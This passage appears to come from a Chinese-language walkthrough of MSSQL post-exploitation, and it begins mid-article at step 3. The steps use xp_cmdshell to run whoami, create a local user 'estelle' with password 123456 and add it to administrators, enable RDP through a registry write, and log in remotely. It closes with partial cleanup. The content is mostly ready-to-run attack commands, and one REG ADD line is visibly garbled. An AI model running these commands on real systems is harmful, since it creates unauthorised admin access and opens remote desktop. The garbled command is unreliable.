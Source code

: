 ![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RWVsbUZ1duonaM1GLzaFIdfCVFDFkb6ZhzrOZonkrpeFUbVAGn3ibSejBPicqKJI4dWHLOZ1ib7LOblw/640?wx_fmt=png)

3.  查看权限  
    通过 xp_cmdshell 执行系统命令 whoami，查看当前权限。
    

> exec xp_cmdshell "whoami";

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RWVsbUZ1duonaM1GLzaFIdfC49rgwocpnOcyzbrS0G2WKSib0OfViaCYHPR89ebF3Ghs7qjhA5IPiavQ/640?wx_fmt=png)

4.  提权
    

> exec xp_cmdshell "net user estelle 123456/add"
> 
> exec xp_cmdshell "net localgroup administrators estelle /add"
> 
> exec xp_cmdshell "net user estelle"

5.  查看 3389 开启状态
    

> exec master.dbo.xp_cmdshell 'netstat -ano';

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RWVsbUZ1duonaM1GLzaFIdfxcpIGdkEQMyydJKG7EBstC05WCas69QygicB5gGwiaqllmmojjv3gicIQ/640?wx_fmt=png)

*   若目标主机未开启 3389 端口，可以使用以下命令开启。
    

> # 使用写入注册表方式开启
> 
> exec master.dbo.xp_regwrite'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\Terminal Server','fDenyTSConnections','REG_DWORD',0;
> 
> 或
> 
> exec master..xp_cmdshell "REG ADD HKLMISYSTEMCurrentControlSetlControNTerminal" "Server Iv fDenyTSConnections /t REG_ DWORD /d 0 /f"
> 
> exec xp_cmdshell 'netstat -ano';

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RWVsbUZ1duonaM1GLzaFIdf5c0eV8gic3ouOUPbATUfkVQqKRSeP3HXmaY1eCfyJGMtXkR4ZdfPvRQ/640?wx_fmt=png)

6.  使用创建的账号，登录目标主机远程桌面。
    

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RWVsbUZ1duonaM1GLzaFIdfnEVUl9oAHo6uEMxR8uXv1uFHdQH6BHJ4Hm2AMImRUbyQvdGHzDILiaA/640?wx_fmt=png)

7.  提权恢复
    

*   关闭 3389 端口
    

> exec master.dbo.xp_regwrite'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\Terminal Server','fDenyTSConnections','REG_DWORD',1;

*   关闭 xp_cmdshell 扩展存储过程
    